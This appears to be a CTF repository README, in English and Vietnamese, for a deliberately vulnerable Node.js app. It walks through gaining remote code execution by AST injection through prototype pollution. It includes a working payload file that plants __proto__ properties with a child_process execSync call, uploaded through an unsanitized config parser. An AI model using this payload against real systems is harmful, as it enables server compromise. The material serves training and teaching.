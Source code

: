 # AST-injection-ctf
Demo AST injection in Nodejs app. <br/>
Docker and docker-compose required!

###### Build nodejs app image
`docker build -t demo-ctf .`<br/>
Ignore all the red line while build image :)))

###### Up docker-compose
`docker-compose up -d`

###### Run app
- Go to localhost:3000
- Reload until everything work correctly

## Try to RCE ^^

### Idea
###### Lướt qua các chức năng của trang web có thể rút ra được những điều như sau:
- Trang web được sử dụng cho các chức năng thống kê, vẽ biểu đồ
- Có 3 model chính là ransom, ransomware và victim
- Truy cập vào đường dẫn của từng model để kiểm tra chức năng, thấy được rằng 2 model ransomware và victim có chức năng xem chi tiết
- Kiểm tra chi tiết của 2 model, thấy rằng victim chỉ có thể download thông tin, còn ransomware có thể upload cấu hình mới lên để thực hiện update, có khả năng tải lên một file để khai thác lỗ hổng bảo mật
###### Quan sát tiếp source code của trang web ở đúng chức năng upload file cấu hình ransomware:
- Trang web sử dụng template engine là blade
- Chức năng update được comment lại để bảo trì
```
var config = parse(req.file.buffer.toString());
// await Ransomware.update(config, { where: { id: req.params.id } })  // database locked for maintenance
res.redirect('/ransomware/' + req.params.id);
```
- Nội dung file không được làm sạch trước khi thực thi chức năng
###### Nghiên cứu về quá trình template thực hiện compile giao diện 
![image](https://user-images.githubusercontent.com/61985236/110513072-648c4c80-8138-11eb-8bf0-97b1a513b9be.png)
- Bước cuối của quá trình trên là execute, do đó nếu chèn được câu lệnh khai thác vào cây AST trước khi được thực thi, có khả năng sẽ dẫn đến RCE

### Solutions
- Tạo file exploit với nội dung dưới đây và lưu lại
```
test = 'Hey universe'
      
[__proto__.someprop]
name = "somename"
value = "somevalue"
code = "process.mainModule.require('child_process').execSync('ls')"
```
- Vào trang chi tiết của 1 ransomware bất kỳ, upload file exploit vừa tạo lên
- Kiểm tra source của trang mới, thấy rằng có thuộc someprop ở các thẻ có giá trị là kết quả của câu lệnh 'ls' được inject ở trong file exploit
